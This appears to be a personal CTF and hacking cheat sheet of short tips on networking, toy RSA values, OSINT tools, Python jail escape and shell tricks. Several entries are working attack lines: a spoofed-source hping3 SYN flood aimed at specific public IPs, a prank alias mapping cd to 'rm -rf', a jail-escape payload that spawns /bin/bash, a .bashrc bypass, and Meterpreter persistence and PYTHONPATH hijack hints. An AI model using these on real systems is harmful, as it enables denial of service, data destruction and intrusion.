 	hping3 -S [host] -p [port] -a [disguised_host] --flood
	hping3 -S [host] -p [port] -a [disguised_host] --flood --rand-source

	example: sudo hping3 -S 45.33.32.156 -p 80 -a 173.203.36.104 --flood --rand-source -V >>> -V for verbose
10. alias cd='rm -rf' >> LOL DONT DO THIS
11. ping and look at the TTL to find the target OS.
12. Rsa stuff
```
Public Key Pair: (23, 37627)                                                                          
Private Key Pair: (61527, 37627)

Public Key: ({e}, {n})
Private Key: ({d}, {n})

e = 23
d = 61527
n = 37627
```
13. Colorful RGB image squares? PIET 
14. Bruteforcing takes too long? try to reverse the wordlist using `tac`
Usage: tac wordlist | tee reversed_wordlist


**OSINT**
1. Twitter is your friend
2. Wayback machine is a thing
3. Just use frickin sherlock if you have a username >>> python3 sherlock/ `username`
https://whatsmyname.app/
https://namecheckup.com/
https://namechk.com/
https://scylla.sh/api (Breach database) (ex = email:rudolphthered@hotmail.com, password:spygame, [what to search]:[the data])



**Python Jail Escape**
https://anee.me/escaping-python-jails-849c65cf306e
Python allows us to use built in objects using the __builtins__ module.
__dict__ >> convert to dictionary representation so it's easier to access.

Example:
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash')



**LIST OF JSON PARSE VULNERABILITY**
1. https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities



**Node JS**
1. this
2. .toString() >>> Look at function body, literally looks what inside the function.



**Tricks**
1. [command name]() { cd "$@" && ls; } >> Auto ls when cd
ex:
cdls(){ cd "$@" && ls; }
i prefer just c
2. .bashrc is the file that's executed first when you logged in to SSH, to login without activiting it do 
`ssh -t [username]@[ip] /bin/sh`
3. Automatc meterpreter persistance
https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/
4. PYTHONPATH or PYTHONENV is the python environment variable, SO IF WE CHANGE IT THE IMPORT LOCATION ALSO CHANGES